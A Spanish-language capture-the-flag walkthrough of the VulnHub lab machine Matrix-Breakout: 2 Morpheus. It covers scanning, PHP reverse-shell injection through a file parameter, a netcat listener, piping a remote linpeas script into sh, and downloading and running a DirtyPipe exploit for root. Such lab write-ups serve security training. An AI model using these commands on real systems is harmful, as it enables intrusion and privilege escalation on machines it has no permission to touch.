








# Matrix-Breakout: 2 Morpheus

**Solución completa con documentación en español e inglés**

Esta es la segunda máquina de la serie Matrix-Breakout, subtitulada Morpheus:1. Está temática como un regreso a la primera película de Matrix. Tú juegas como Trinity, intentando investigar una computadora en el Nebuchadnezzar de la cual Cypher ha bloqueado a todos los demás, y que contiene la clave de un misterio.

**Dificultad**: Media-Alta

**Enlace a la máquina**: [VulnHub - Matrix-Breakout: 2 Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

---

## 1. Configuración Inicial

### 1.1 Importar las Máquinas

Empezaremos por importar las dos máquinas y ajustarlas bajo una misma red virtual.


### 1.2 Identificación de la IP Objetivo

Ya con las máquinas levantadas, necesitamos identificar la dirección IP de la máquina objetivo dentro de nuestra red local. Para ello usaremos `arp-scan`, una herramienta que envía paquetes ARP a todas las direcciones IP en la red local y escucha las respuestas, permitiéndonos descubrir dispositivos activos.

```bash
sudo arp-scan -l
```

**Explicación del comando:**
- `-l`: Escanea la red local (equivalente a `--localnet`)
- Requiere permisos de administrador (`sudo`) para enviar paquetes ARP

El resultado nos mostrará todas las direcciones IP activas en la red, incluyendo nuestra máquina atacante y la máquina objetivo (Morpheus).


### 1.3 Verificación de Conectividad

Una vez identificada la IP objetivo, verificamos que la máquina esté activa y responda a las solicitudes de red. Esto nos confirma que podemos establecer comunicación con el objetivo antes de comenzar el escaneo de puertos.

```bash
ping 192.168.116.129
```

**¿Qué hace ping?**
- Envía paquetes ICMP (Internet Control Message Protocol) a la máquina objetivo
- Si recibimos respuestas, la máquina está activa y accesible en la red
- Nos ayuda a confirmar que no hay problemas de conectividad de red antes de continuar


---

## 2. Escaneo de Puertos

### 2.1 Escaneo Inicial con Nmap

Ahora procedemos con el escaneo de puertos para identificar qué servicios están corriendo en la máquina objetivo. Este es un paso crucial ya que cada puerto abierto representa un posible punto de entrada.

```bash
nmap --open -vv -T5 -p- 192.168.116.129
```

**Explicación de los parámetros:**
- `--open`: Muestra solo los puertos que están abiertos (no filtrados ni cerrados)
- `-vv`: Modo verbose (muy detallado) para ver el progreso del escaneo
- `-T5`: Timing agresivo (más rápido, pero puede ser detectado más fácilmente)
- `-p-`: Escanea todos los puertos (1-65535)

Este escaneo nos dará una lista de todos los puertos abiertos, que son nuestros puntos de entrada potenciales para la explotación.


### 2.2 Escaneo Detallado de Servicios

Una vez identificados los puertos abiertos, realizamos un escaneo más detallado para obtener información específica sobre los servicios que corren en esos puertos. Esto incluye versiones de software, scripts de detección y banners de servicios.

```bash
nmap -sC -sV -p 22,80,81 192.168.116.129
```

**Explicación de los parámetros:**
- `-sC`: Ejecuta scripts de detección por defecto de Nmap (equivalente a `--script=default`)
- `-sV`: Detección de versiones de servicios
- `-p 22,80,81`: Escanea solo los puertos específicos identificados en el escaneo anterior

**Resultados del escaneo:**
- **Puerto 22**: SSH (Secure Shell) - Protocolo de administración remota
- **Puerto 80**: HTTP (HyperText Transfer Protocol) - Servidor web
- **Puerto 81**: HTTP - Otro servidor web (posiblemente un servicio alternativo o proxy)

Esta información es crucial porque nos permite identificar versiones específicas de software que pueden tener vulnerabilidades conocidas.



---

## 3. Enumeración Web

### 3.1 Exploración del Puerto 80

El puerto 80 es el puerto estándar para servicios HTTP. Accedemos a través del navegador web para ver qué contenido está sirviendo el servidor. Esta es nuestra primera interacción directa con el servicio objetivo y nos permite identificar la aplicación web que estamos atacando.

Abrimos el navegador y accedemos a:
```
http://192.168.116.129
```

**¿Qué buscamos?**
- Tipo de aplicación web (CMS, framework, aplicación personalizada)
- Tecnologías utilizadas (PHP, JavaScript, etc.)
- Posibles pistas o mensajes ocultos
- Enlaces o formularios que puedan ser puntos de entrada


Y con esto ya empieza nuestra fase de enumeración web y juego de infiltración.

### 3.2 Análisis del Código Fuente

El análisis del código fuente HTML es fundamental en la enumeración web. Muchas aplicaciones web exponen información sensible en comentarios HTML, JavaScript, o en el código fuente que no es visible en la renderización normal de la página.

**¿Qué buscamos en el código fuente?**
- Comentarios HTML con información sensible
- Rutas o URLs ocultas
- Credenciales hardcodeadas (aunque es poco común)
- Referencias a archivos o directorios
- Tokens o claves de API
- Información sobre tecnologías y frameworks utilizados

Para ver el código fuente:
- **Chrome/Firefox**: Click derecho → "Ver código fuente de la página" o `Ctrl+U`
- **O usar**: `curl http://192.168.116.129` desde la terminal


### 3.3 Revisión de robots.txt

El archivo `robots.txt` es un estándar que indica a los crawlers de motores de búsqueda qué directorios no deben indexar. Sin embargo, en seguridad, este archivo puede revelar directorios y archivos que el administrador no quiere que sean públicos, convirtiéndose en una valiosa fuente de información.

Accedemos a:
```
http://192.168.116.129/robots.txt
```

**¿Qué buscamos?**
- Directorios ocultos o protegidos
- Archivos de configuración
- Rutas de administración
- Archivos de backup

En este caso, el `robots.txt` está presente y nos proporciona un mensaje de seguridad. Aunque no revele rutas ocultas directamente, confirma que estamos tratando con un servidor web configurado.



### 3.4 Fuerza Bruta de Directorios

Cuando el código fuente y los archivos comunes no revelan información útil, recurrimos a la fuerza bruta de directorios. Esta técnica consiste en probar miles de nombres de directorios y archivos comunes para descubrir rutas ocultas o no documentadas.

**Herramientas comunes para fuerza bruta de directorios:**
- **dirBuster**: Herramienta gráfica con GUI
- **gobuster**: Herramienta de línea de comandos más rápida
- **dirb**: Otra alternativa de línea de comandos
- **wfuzz**: Permite fuzzing más avanzado

**¿Cómo funciona?**
1. Toma una lista de palabras (wordlist) con nombres comunes de directorios y archivos
2. Prueba cada palabra como ruta: `http://IP/palabra`
3. Analiza las respuestas HTTP (códigos de estado 200, 403, 404, etc.)
4. Reporta los resultados encontrados

Para ello usaremos nuestra herramienta dirBuster y sus listas de palabras incluidas:



**Configuración típica:**
- URL objetivo: `http://192.168.116.129`
- Threads: 10-20 (para no sobrecargar el servidor)
- Wordlist: Lista común como `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Lo iniciaremos y esperaremos a que termine de buscar directorios:


**Resultado**: Encontramos un directorio llamado `graffiti.php` que responde con un código de estado HTTP 200 (éxito), lo que indica que el archivo existe y es accesible. Este es un hallazgo importante que merece una investigación más profunda.


### 3.5 Análisis de graffiti.php

Accedemos a `http://192.168.116.129/graffiti.php` y encontramos una aplicación web interactiva. Esta página permite a los usuarios enviar mensajes que se almacenan y muestran en pantalla.

**Análisis de la funcionalidad:**
- La aplicación tiene un formulario donde podemos ingresar mensajes
- Los mensajes se procesan en el servidor
- Los mensajes se muestran en una lista en la página
- Esto sugiere que hay un proceso de backend que maneja el almacenamiento de datos

**Posibles vectores de ataque:**
- **Inyección SQL**: Si los datos se almacenan en una base de datos sin sanitización
- **File Upload**: Si podemos subir archivos maliciosos
- **Command Injection**: Si el servidor procesa los datos de forma insegura
- **PHP Code Injection**: Si los datos se evalúan como código PHP

Cada mensaje que escribimos en la casilla de mensaje es procesado por el servidor y se coloca en una lista que se ve en pantalla. Necesitamos analizar cómo se procesa esta información.


---

## 4. Explotación

### 4.1 Identificación de la Vulnerabilidad

Para entender cómo la aplicación procesa nuestros datos, necesitamos interceptar las solicitudes HTTP entre nuestro navegador y el servidor. Aquí es donde Burp Suite se vuelve esencial.

**¿Qué es Burp Suite?**
Burp Suite es una plataforma integrada para realizar pruebas de seguridad de aplicaciones web. A diferencia de Wireshark (que captura todo el tráfico de red), Burp Suite está específicamente diseñado para interceptar, modificar y analizar tráfico HTTP/HTTPS entre el navegador y el servidor web.

**Configuración de Burp Suite:**
1. Iniciamos Burp Suite y activamos el proxy (por defecto en `127.0.0.1:8080`)
2. Configuramos el navegador para usar Burp como proxy
3. Instalamos el certificado CA de Burp para interceptar HTTPS
4. Activamos la intercepción de solicitudes

**Proceso de análisis:**
1. Enviamos un mensaje de prueba a través de `graffiti.php`
2. Burp Suite intercepta la solicitud HTTP
3. Analizamos los parámetros enviados
4. Modificamos la solicitud para probar diferentes vectores de ataque


**Hallazgo crítico:**
Al analizar la solicitud interceptada, observamos que la aplicación utiliza dos parámetros importantes:
- **`message`**: Contiene el mensaje que enviamos
- **`file`**: Especifica el archivo donde se guardará el mensaje (por defecto un archivo `.txt`)

Como podemos observar, todos los datos se guardan en un archivo txt que será procesado por PHP. Este es el punto clave: **si podemos controlar el parámetro `file` y cambiar la extensión a `.php`, podemos inyectar código PHP que será ejecutado por el servidor**.



### 4.2 Preparación del Reverse Shell

**¿Qué es un Reverse Shell?**
Un reverse shell es una conexión de shell remota donde la máquina objetivo (víctima) se conecta de vuelta a nuestra máquina atacante, en lugar de que nosotros nos conectemos directamente a ella. Esto es útil cuando hay firewalls bloqueando conexiones entrantes, pero permiten conexiones salientes.

**¿Por qué PHP Reverse Shell?**
Ya que descubrimos que podemos inyectar código PHP al cambiar la extensión del archivo, podemos crear un archivo PHP malicioso que:
1. Se ejecute en el servidor
2. Establezca una conexión TCP a nuestra máquina
3. Nos proporcione una shell interactiva en el servidor

**Preparación:**
Necesitamos descargar un script de reverse shell en PHP. Una versión confiable y ampliamente utilizada puede ser encontrada en:

**Repositorio**: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

**Modificaciones necesarias:**
Antes de usar el script, debemos editar las siguientes líneas:
```php
$ip = 'TU_IP_ATACANTE';  // IP de nuestra máquina Kali
$port = 9999;            // Puerto donde escucharemos
```

**Importante**: Asegúrate de usar la IP correcta de tu máquina atacante (no la IP objetivo).

### 4.3 Inyección del Reverse Shell

Ahora vamos a explotar la vulnerabilidad que descubrimos. El plan es:

1. **Interceptar la solicitud** en Burp Suite cuando enviamos un mensaje
2. **Modificar el parámetro `message`** para contener el código completo del reverse shell en PHP
3. **Cambiar el parámetro `file`** de `.txt` a `.php` para que el servidor ejecute el código
4. **Enviar la solicitud modificada** al servidor

**Proceso detallado:**

**Paso 1: Preparar el payload**
Copiamos todo el contenido del archivo `php-reverse-shell.php` (ya modificado con nuestra IP y puerto).

**Paso 2: Interceptar y modificar en Burp Suite**
1. Enviamos cualquier mensaje desde el navegador
2. Burp Suite intercepta la solicitud
3. En la pestaña "Raw" o "Params", modificamos:
   - **Parámetro `message`**: Reemplazamos el mensaje con el código completo del reverse shell
   - **Parámetro `file`**: Cambiamos de `mensaje.txt` a `shell.php` (o cualquier nombre con extensión `.php`)

**Paso 3: Enviar la solicitud modificada**
1. Hacemos click en "Forward" o desactivamos la intercepción
2. El servidor procesará la solicitud y creará el archivo PHP con nuestro código malicioso

**⚠️ Advertencia crítica**: 
- Asegúrate de que la IP en el reverse shell sea correcta (IP de tu máquina atacante, NO la IP objetivo)
- Verifica que el puerto esté disponible y no esté bloqueado por firewall
- Un error aquí puede corromper archivos en el servidor o causar problemas
- En este ejemplo, debido a un error previo, la IP de la máquina Morpheus cambió a 192.168.116.130


### 4.4 Establecimiento del Listener

Antes de que el reverse shell se ejecute, necesitamos tener un listener (escucha) activo en nuestra máquina atacante para recibir la conexión entrante del servidor.

**¿Qué es Netcat?**
Netcat (nc) es una herramienta de red que puede leer y escribir datos a través de conexiones de red usando TCP o UDP. En este caso, la usamos como listener para recibir la conexión del reverse shell.

**Configuración del listener:**
En nuestra máquina atacante (Kali Linux), ejecutamos:

```bash
nc -lnvp 9999
```

**Explicación de los parámetros:**
- `-l`: Modo listen (escucha), espera conexiones entrantes
- `-n`: No resuelve nombres DNS, usa solo direcciones IP (más rápido)
- `-v`: Modo verbose (muestra información detallada)
- `-p 9999`: Puerto donde escucharemos (debe coincidir con el puerto en el reverse shell)

**Activación del reverse shell:**
Una vez que el listener está activo, necesitamos activar el archivo PHP que creamos. Para esto:
1. Accedemos al archivo en el navegador: `http://192.168.116.129/shell.php`
2. O hacemos cualquier request que cause que el servidor ejecute nuestro archivo PHP

Al hacer otra request cualquiera recibiremos la conexión:


**¡Éxito!** Como podemos observar, ahora tenemos una shell interactiva en el servidor objetivo. Esto significa que hemos comprometido la máquina y tenemos acceso a nivel de usuario (generalmente el usuario del servidor web, como `www-data`).


### 4.5 Obtención de la Primera Flag

Con acceso a la shell, comenzamos a explorar el sistema para encontrar la primera flag. Las flags en máquinas CTF generalmente se encuentran en:

- Directorio home del usuario actual
- Directorios comunes como `/home`, `/var/www`, `/tmp`
- Archivos con nombres obvios como `flag.txt`, `user.txt`, `proof.txt`

**Comandos útiles para la búsqueda:**
```bash
pwd                    # Ver directorio actual
whoami                 # Ver usuario actual
ls -la                 # Listar archivos (incluyendo ocultos)
find / -name "flag*"   # Buscar archivos que contengan "flag" en el nombre
find / -name "*flag*"  # Búsqueda más amplia
cat flag.txt           # Leer el archivo de la flag
```

Y con esto obtenemos nuestra primera flag (generalmente la flag de usuario):




**Nota**: La primera flag suele estar accesible con los privilegios del usuario actual. Para obtener la segunda flag (flag de root), necesitaremos escalar privilegios.

---

## 5. Escalada de Privilegios

### 5.1 Ejecución de LinPEAS

Para obtener la segunda flag, necesitamos acceso de root. Esto requiere escalar nuestros privilegios desde el usuario actual (probablemente `www-data`) hasta root.

**¿Qué es la escalada de privilegios?**
La escalada de privilegios es el proceso de obtener acceso a recursos que normalmente están restringidos para el usuario actual. En Linux, esto generalmente significa obtener acceso de root (usuario con privilegios administrativos completos).

**¿Qué es LinPEAS?**
LinPEAS (Linux Privilege Escalation Awesome Script) es un script automatizado que busca múltiples vectores de escalada de privilegios en sistemas Linux. Escanea:

- Archivos con permisos SUID/SGID mal configurados
- Credenciales en archivos de configuración
- Servicios ejecutándose con privilegios elevados
- Vulnerabilidades del kernel
- Historial de comandos con información sensible
- Tareas programadas (cron jobs) vulnerables
- Variables de entorno con información sensible
- Y mucho más...

**Repositorio**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

**Ejecución:**
La forma más sencilla es descargar y ejecutar el script directamente desde internet:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Explicación del comando:**
- `curl -L`: Descarga el archivo (la opción `-L` sigue redirecciones)
- `| sh`: Pasa el contenido descargado directamente al intérprete de shell para ejecutarlo

**Alternativa (si no hay conexión a internet):**
Si la máquina objetivo no tiene acceso a internet, podemos:
1. Descargar linpeas.sh en nuestra máquina atacante
2. Iniciar un servidor HTTP: `python3 -m http.server 8000`
3. Desde la máquina objetivo: `wget http://TU_IP:8000/linpeas.sh`
4. Ejecutar: `bash linpeas.sh`



### 5.2 Análisis de Resultados

LinPEAS genera una salida extensa con mucha información. Necesitamos analizar los resultados cuidadosamente para identificar vectores de escalada de privilegios.

**Secciones importantes a revisar:**
1. **SUID/SGID binaries**: Binarios que se ejecutan con privilegios elevados
2. **Writable files**: Archivos en los que tenemos permisos de escritura
3. **Kernel version**: Versión del kernel (puede tener vulnerabilidades conocidas)
4. **Sudo version**: Versión de sudo (puede tener vulnerabilidades)
5. **Cron jobs**: Tareas programadas que pueden ser explotables
6. **Environment variables**: Variables de entorno con información sensible
7. **Docker/containers**: Si hay contenedores, pueden ser puntos de entrada
8. **Processes**: Procesos ejecutándose con privilegios elevados

**En este caso específico:**
El script nos mostrará información sobre vulnerabilidades del kernel. Buscaremos específicamente:
- Versión del kernel
- CVEs (Common Vulnerabilities and Exposures) conocidas para esa versión
- Exploits disponibles públicamente

Este script nos dará mucha información útil, pero nos centraremos en los exploits abiertos o sin corregir que tiene la máquina, especialmente vulnerabilidades del kernel que pueden ser explotadas directamente.




### 5.3 Explotación de DirtyPipe (CVE-2022-0847)

**¿Qué es DirtyPipe?**
DirtyPipe (CVE-2022-0847) es una vulnerabilidad crítica en el kernel de Linux que permite a usuarios no privilegiados sobrescribir datos en archivos de solo lectura, incluso archivos pertenecientes a root. Esta vulnerabilidad afecta a kernels Linux desde la versión 5.8 hasta la 5.16.11.

**¿Cómo funciona?**
La vulnerabilidad existe en cómo el kernel maneja los pipes (tuberías) y la copia de páginas. Un atacante puede:
1. Crear un pipe
2. Llenar el pipe con datos maliciosos
3. Usar la vulnerabilidad para sobrescribir archivos del sistema
4. Modificar archivos como `/etc/passwd` o crear claves SSH para obtener acceso root

**¿Por qué es peligrosa?**
- No requiere interacción del usuario
- Puede ser explotada por usuarios no privilegiados
- Permite obtener acceso root
- Es relativamente fácil de explotar

**Explotación:**
De todos los vectores identificados por LinPEAS, encontramos que esta máquina es vulnerable a DirtyPipe. Procedemos a explotarla:

```bash
cd /var/www/html
wget https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

**Explicación de los comandos:**
1. `cd /var/www/html`: Nos movemos a un directorio donde tenemos permisos de escritura
2. `wget ...`: Descargamos el exploit desde GitHub
3. `chmod +x Dirty-Pipe.sh`: Damos permisos de ejecución al script
4. `bash Dirty-Pipe.sh`: Ejecutamos el exploit

**Resultado esperado:**
Si el exploit es exitoso, deberíamos obtener una shell con privilegios de root. El exploit generalmente funciona modificando `/etc/passwd` para crear un usuario con UID 0 (root) o modificando la contraseña de root.


### 5.4 Verificación de Acceso Root

Después de ejecutar el exploit, verificamos que efectivamente tenemos acceso root. Hay varias formas de verificar esto:

**Comandos de verificación:**
```bash
whoami          # Debe mostrar "root"
id              # Debe mostrar uid=0(root) gid=0(root)
cd /root        # Debe permitirnos acceder al directorio /root (solo root puede hacerlo)
```

El directorio `/root` es el directorio home del usuario root y solo es accesible por el usuario root. Si podemos entrar y listar su contenido, confirmamos que tenemos privilegios de root.

Verificamos entrando en /root:


**¡Éxito!** Hemos escalado exitosamente nuestros privilegios a root. Ahora podemos acceder a cualquier archivo del sistema, incluyendo la segunda flag.

### 5.5 Obtención de la Segunda Flag

Con acceso root, ahora podemos acceder a la segunda flag, que generalmente se encuentra en:
- `/root/flag.txt`
- `/root/proof.txt`
- `/root/root.txt`
- O en algún archivo dentro del directorio `/root`

**Comandos para encontrar la flag:**
```bash
ls -la /root              # Listar contenido del directorio root
cat /root/flag.txt        # Leer la flag si existe
find /root -name "*flag*" # Buscar archivos con "flag" en el nombre
```

Y obtenemos la segunda y última flag (flag de root):



**¡Máquina completada!** Hemos obtenido ambas flags (flag de usuario y flag de root), lo que significa que hemos comprometido completamente la máquina Matrix-Breakout: 2 Morpheus.

---

## Resumen

Esta máquina nos ha permitido practicar:

1. **Escaneo de red y puertos** con `arp-scan` y `nmap`
2. **Enumeración web** con análisis de código fuente y fuerza bruta de directorios
3. **Explotación de vulnerabilidades** mediante inyección de PHP reverse shell
4. **Escalada de privilegios** usando linPEAS y el exploit DirtyPipe (CVE-2022-0847)

---

## Referencias

- **Artículo original**: [Matrix Breakout 2 Morpheus - Medium](https://medium.com/@mithunachary21/matrix-breakout-2-morpheus-6c9f4b73318d)
- **PHP Reverse Shell**: https://github.com/pentestmonkey/php-reverse-shell
- **LinPEAS**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- **DirtyPipe Exploit**: https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
- **CVE-2022-0847**: https://dirtypipe.cm4all.com/

---

## Notas Finales

- Asegúrate de tener las máquinas en la misma red virtual
- Ten cuidado al modificar los parámetros en Burp Suite para no dañar la máquina objetivo
- Los pasos de escalada de privilegios pueden variar según la configuración específica de la máquina
